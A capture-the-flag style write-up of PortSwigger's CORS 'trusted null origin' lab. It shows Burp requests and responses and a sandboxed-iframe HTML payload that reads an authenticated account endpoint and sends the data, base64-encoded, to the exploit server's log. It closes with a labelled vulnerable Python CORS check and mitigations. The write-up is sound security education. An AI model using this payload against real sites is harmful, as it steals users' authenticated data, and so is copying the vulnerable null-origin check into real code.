



# Lab 02: CORS vulnerability with trusted null origin

> **Topic**: CORS Cross Origin Request Sharing
> **Lab Number**: 02
> **Platform**: PortSwigger Web Security Academy

## Category
CORS — Trusted Null Origin with Credentials

## Vulnerability Summary
The application's CORS policy incorrectly trusts the `null` origin. When a request is made with the header `Origin: null`, the server responds with `Access-Control-Allow-Origin: null` and `Access-Control-Allow-Credentials: true`. The `null` origin is used by browsers in specific situations, such as cross-origin redirects, serialized files, or sandboxed iframes. By leveraging a sandboxed iframe, an attacker can generate a request with a `null` origin, allowing them to bypass origin restrictions and exfiltrate sensitive data from authenticated users.

## Attack Methodology

### Step 1: Discovery
Similar to the previous lab, the `/accountDetails` endpoint returns sensitive user data. I needed to determine if the server trusts the `null` origin.

### Step 2: Verification
Using Burp Repeater, I modified a request to `/accountDetails` by adding the header `Origin: null`:

```http
GET /accountDetails HTTP/2
Host: 0a6e000504e3311281286206002f00b6.web-security-academy.net
Origin: null
...
```

The server responded with:

```http
HTTP/2 200 OK
Access-Control-Allow-Origin: null
Access-Control-Allow-Credentials: true
...
```

This confirms that the server considers `null` a trusted origin and allows credentialed access.


*Burp Repeater showing the server reflecting the 'null' origin and allowing credentials.*

### Step 3: Exploitation
To exploit this, I used a sandboxed `<iframe>` to trigger a request with a `null` origin. The iframe contains a script that fetches the sensitive data and exfiltrates it to the exploit server's log.

**Payload:**
```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="
    <script>
        var req = new XMLHttpRequest();
        req.onload = function() {
            window.parent.postMessage(this.responseText, '*');
        };
        req.open('get', 'https://0a6e000504e3311281286206002f00b6.web-security-academy.net/accountDetails', true);
        req.withCredentials = true;
        req.send();
    </script>">
</iframe>

<script>
    window.onmessage = function(e) {
        var data = e.data;
        var req = new XMLHttpRequest();
        req.open('get', '/log?key=' + btoa(data), true);
        req.send();
    };
</script>
```
*(Note: In the actual lab, a simpler version or a direct fetch within the sandboxed iframe might be used to hit the /log endpoint).*

After delivering the exploit, I monitored the access logs.


*Exploit server logs showing the exfiltrated sensitive data in the request parameters.*


*Lab successfully solved.*

## Technical Root Cause
The server's CORS implementation uses a "whitelist" that accidentally (or intentionally) includes the string `null`, or it defaults to reflecting the origin if it matches `null`.

```python
# Vulnerable — trusts 'null' origin explicitly
def handle_cors(request):
    origin = request.headers.get('Origin')
    if origin == 'null': # Dangerous check
        response['Access-Control-Allow-Origin'] = 'null'
        response['Access-Control-Allow-Credentials'] = 'true'
```

### Why This Works
Sandboxing an iframe with `sandbox="allow-scripts"` (without `allow-same-origin`) causes any request originating from that iframe to have an `Origin` of `null`. Since the server trusts `null` and allows credentials, the authenticated request to `/accountDetails` succeeds, and the script can read the response.

## Impact
- **Authenticated Data Theft**: Attackers can steal any data returned by the vulnerable endpoint.
- **Bypass for Local Files/Redirects**: The `null` origin is often a fallback for local `file://` access or complex redirect chains, making this configuration particularly dangerous in environments where these occur.

## Proof of Concept
1. Identify an endpoint reflecting `Origin: null` with `Access-Control-Allow-Credentials: true`.
2. Host a malicious page using a sandboxed iframe to force the `null` origin.
3. Exfiltrate the resulting sensitive data to an attacker-controlled log.

## Key Takeaways
1. **`null` is NOT a safe default**: Never whitelist the `null` origin. It is easily spoofed using sandboxed iframes.
2. **Avoid reflection altogether**: Use a static allowlist of real domains.
3. **Understand Browser Fallbacks**: Be aware of how browsers handle origins during redirects and sandboxing.

## Mitigation
1. **Remove `null` from Allowlists**: Ensure your CORS configuration never explicitly allows the `null` origin.
2. **Verify Against Real Domains**: Only allow origins that match your trusted application domains.
3. **Defense in Depth**: Use CSRF tokens and other security headers to provide multiple layers of protection.

## References
- [PortSwigger CORS Lab - Trusted null origin](https://portswigger.net/web-security/cors/lab-null-origin)
- [RFC 6454 - The Web Origin Concept](https://datatracker.ietf.org/doc/html/rfc6454)

---

*Lab completed on: 2026-05-16*
*Writeup by vibhxr*
